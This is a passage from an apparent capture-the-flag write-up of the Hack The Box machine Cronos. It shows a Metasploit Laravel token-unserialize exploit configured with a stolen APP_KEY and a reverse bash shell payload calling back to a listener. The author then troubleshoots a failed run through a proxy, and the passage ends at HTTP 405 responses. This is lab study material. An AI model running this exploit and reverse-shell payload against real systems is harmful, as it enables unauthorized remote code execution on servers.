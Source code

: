 
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > options

    Module options (exploit/unix/http/laravel_token_unserialize_exec):

       Name       Current Setting                               Required  Description
       ----       ---------------                               --------  -----------
       APP_KEY    +fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=  no        The base64 encoded APP_KEY string from the .env file
       Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS     10.10.10.13                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      80                                            yes       The target port (TCP)
       SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                                             yes       Path to target webapp
       VHOST      www.cronos.htb                                no        HTTP server virtual host


    Payload options (cmd/unix/reverse_bash):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic



It's important to set the `VHOST` option, or the payloads will submit to
the wrong vhost.

When I run this, it says it runs, but no shell:



    msf5 exploit(unix/http/laravel_token_unserialize_exec) > run

    [*] Started reverse TCP handler on 10.10.14.24:443 
    [*] Exploit completed, but no session was created.



I added a proxy (I'll also need to set `ReverseAllowProxy`):



    msf5 exploit(unix/http/laravel_token_unserialize_exec) > set proxies http:127.0.0.1:8080
    proxies => http:127.0.0.1:8080
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > set ReverseAllowProxy true
    ReverseAllowProxy => true



On re-running it, I see that it's sending a four HTTP POST requests,
each of which is getting a 405 Method Not Allowed response:

